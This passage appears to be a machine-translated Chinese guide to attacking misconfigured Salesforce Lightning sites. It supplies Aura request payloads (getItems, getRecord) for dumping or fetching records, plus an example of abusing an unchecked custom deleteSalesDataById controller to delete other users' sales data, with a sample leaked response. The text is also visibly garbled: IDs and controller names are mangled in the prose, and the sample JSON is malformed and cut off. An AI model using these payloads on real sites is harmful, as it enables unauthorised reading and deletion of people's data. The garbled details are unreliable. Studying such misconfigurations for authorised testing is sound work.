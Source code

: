 **getItems**——检索与用户对应的给定对象的记录，但是如果记录权限配置错误，这可能会检索整个对象的记录。使用 objects.txt 对入侵者中的所有对象运行此命令。

```
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"***","layoutType":"FULL","pageSize":100,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}
```

**getRecord** -根据记录 id 检索记录。这主要适用于经过身份验证的用户。如果在任何控制器响应中，您找到" id ":，请针对下面的控制器和操作尝试该值。替换下面 recordId 值中的***符号。

一个 Id 一般是这样的——“Id”:“0099g 000001 mwqayhu”

```
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.detail.DetailController/ACTION$getRecord","callingDescriptor":"UNKNOWN","params":{"recordId":"***","record":null,"inContextOfComponent":"","mode":"VIEW","layoutType":"FULL","defaultFieldValues":null,"navigationLocation":"LIST_VIEW_ROW"}}]}
```

**错误配置 2——创建定制控制器而不进行适当的清理**

让我们假设一个开发人员创建了几个自定义控制器来从一个自定义对象**Sales data _ _ c****apex**://New _ Sales _ Controller/ACTION $ getsaledata，这将检索所有用户的销售数据，另一个控制器将删除基于 Id **apex** 的销售数据://New _ Sales _ Controller/ACTION $ deletesaldatabyid

```
**getSalesData**{"actions":[{"id":"1;a","descriptor":"**apex**://New_Sales_Controller/ACTION$getSalesData","callingDescriptor":"UNKNOWN","params":{}}]}**deleteSalesDataById**{"actions":[{"id":"1;a","descriptor":"**apex**://New_Sales_Controller/ACTION$deleteSalesDataById","callingDescriptor":"UNKNOWN","params":{"id":"***"}}]}
```

假设实际权限是这样工作的，所有用户都可以查看 getSalesData，而 deleteSalesDataById 只能用于删除当前用户的销售数据。但是开发人员忽略了清理 **deleteSalesDataById。**

运行**getsaledata**返回以下响应:

```
{
 "actions":[
   {
     "id":"123;a",
     "state":"SUCCESS",
     "returnValue":{
        "result":[
          {
            "record":{
              "Name":"User1",
              "Company Name":"Company1",
              "email":"User1@comapny1.com",
              "Year":"2020",
              "Sales":"5725",
              "Id":"0099g000001mWQsVSK",
          }
        },
        {
            "record":{
              "Name":"User2",
              "Company Name":"Company2",
              "email":"User2@comapny2.com",
              "Year":"2020",
              "Sales":"5725",
              "Id":"0099g000001mWQaYHU",
          }
        }
```
